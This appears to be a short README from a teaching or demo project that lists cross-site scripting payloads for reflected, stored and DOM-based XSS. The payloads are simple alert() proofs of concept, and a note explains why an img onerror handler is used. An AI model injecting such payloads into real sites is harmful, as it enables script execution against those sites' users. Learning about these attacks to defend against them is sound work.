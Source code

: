# Attack

### Reflected XSS

Payload

```bash
<script>alert('Hacked!')</script>
```

### Stored XSS

Payload

```bash
<script>alert('Hacked!')</script>
```

### DOM-based XSS

Payload: 

```bash
<img src=x onerror="alert('XSS Attack')">
```

> [!NOTE]
> 
> The attack may seem a bit convoluted, and it is, but that's because there are basic protections to prevent the simplest XSS attacks; [script](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML) tags added via innerHTML are not executed automatically.
